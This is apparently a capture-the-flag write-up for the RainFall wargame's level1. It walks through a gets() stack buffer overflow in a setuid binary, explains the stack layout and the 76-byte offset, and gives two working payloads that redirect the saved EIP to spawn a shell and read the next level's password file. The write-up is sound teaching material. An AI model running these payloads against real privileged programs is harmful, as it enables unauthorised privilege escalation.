


# LEVEL1

## 1. Inspect The Executable

```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with level2 privileges.

```
level1@RainFall:~$ ./level1 

level1@RainFall:~$ ./level1 
test
```

The program waits for user input, most likely a call to `read` or a `gets`. 

```
level1@RainFall:~$ ./level1 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level1@RainFall:~$ ./level1 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Illegal instruction (core dumped)
level1@RainFall:~$ ./level1 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

These tests indicate a **buffer overflow vulnerability** (here triggered with 76 `a` characters), meaning there is **no protection** on the input buffer.

## 2. Analyze The Executable

```
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x08048444  run
0x08048480  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find 2 interesting functions: `main` and `run`.

### Program Behavior

#### main function

The `main` function calls `gets()` to read user input into a local variable named `local_50`, without any protection against buffer overflow.

#### run function

Our goal is to **redirect execution** to the `run` function, which spawns a shell with `level2` privileges.

This can be achieved by **exploiting** the **buffer overflow vulnerability** in `local_50`, which receives the result of `gets()`.

---

A **buffer overflow attack** consists of **writing more data** than the allocated space of a **local variable on the stack**, allowing us to overwrite critical values such as saved registers.

### Stack Understanding

To understand the buffer overflow, we need to **understand how the stack works**.

The **stack** is a memory area organized as **FILO** (First In, Last Out).
On x86 architectures, the stack grows from high addresses to low addresses.

At each function call, the stack frame contains:

- The **saved EIP** (Instruction Pointer), which points to the **next instruction** of the caller (4 bytes, located at EBP+4).
- The **saved EBP** (Base Pointer) of the **caller** (4 bytes, located at EBP).
- The current function **sets EBP** to point to the **new stack frame**.
- **Space** allocated for **local variables** by adjusting **ESP**.

This means that **local variables** are located **below the saved EBP**, and **overflowing** them allows us to **overwrite** the **saved EBP** and then the **saved EIP**.



---

Terminology:
- **Caller**: The function that calls another function.
- **Callee**: The function that is being called.


---

### Understand The Attack

By **overflowing** the **local variable**, we **overwrite** the saved EBP and the **saved EIP**.
The **saved EIP** being a pointer can be used to **redirect execution** to another function.

The idea is to **overwrite** the buffer with **arbitrary data** and **end** the **payload** with the **address of the target** function.
Because of **little-endian architecture**, the address must be **written in reverse byte order** (e.g. `0x01234567` → `\x67\x45\x23\x01`).

The tricky part is finding the correct offset: enough bytes to overwrite the local variable and the saved EBP, but stopping exactly at the saved EIP.

---

## 3. Exploit Development

For this binary, the stack layout looks like this : 



**Explanation:**
- **Top frame**: The caller's stack frame (before `main()` is called).
- **Bottom frame**: The `main()` function's stack frame, showing `local_50` (72 bytes), saved EBP (4 bytes), and saved EIP (4 bytes).

---

Note:
`ESP` ends up at `EBP - 88 bytes` because of the **stack alignment** and **allocation** performed in the function prologue:

```s
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
```

The `and` operation with `0xfffffff0` **aligns** the **stack** on a **16-byte boundary**, effectively clearing the **lower 4 bits** of ESP.
This results in an additional offset of **up to 8 bytes** (depending on the initial value of `ESP`).

The `sub` operation with `0x50` then allocates **80 bytes** (`0x50` in decimal) for **local variables**.

As a result:

```
ESP = EBP - 80 - 8 = EBP - 88 bytes
```

---

### 3.a Exploit with `run()`

To reach the saved EIP, we need a buffer of **76 bytes**, followed by the address of the `run()` function.

The address of `run()` is `0x08048444`. In little-endian format:
```
\x44\x84\x04\x08
```

With that we can create the payload:

```
python -c "print 'A' * 76 + '\x44\x84\x04\x08'"
```

**Explanation:**
- `python`				: launches the Python interpreter.
- `-c` 					: executes the command passed as a string.
- `print` 				: outputs data to standard output.

### 3.b Exploit with `system()`

It is also possible to redirect execution directly to the `system()` call.

```
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
```

We need to **jump before the call** to ensure that the **argument** is properly **set up**.
The address of the target is `0x08048472`. In little-endian format:
```
\x72\x84\x04\x08
```

With that we can create the payload:

```
python -c "print 'A' * 76 + '\x72\x84\x04\x08'"
```

## 4. Execute The Exploit - Capture The Flag

**Note:**  
We use `cat /tmp/payload -` to send the payload and then keep `stdin` open. The dash (`-`) tells `cat` to continue reading from stdin, allowing us to interact with the spawned shell.

```
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | ./level1 
Good... Wait what?
cat /home/user/level2/.pass
XXX
```

```
level1@RainFall:~$ python -c "print 'A' * 76 + '\x72\x84\x04\x08'" > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | ./level1 
cat /home/user/level2/.pass
XXX
```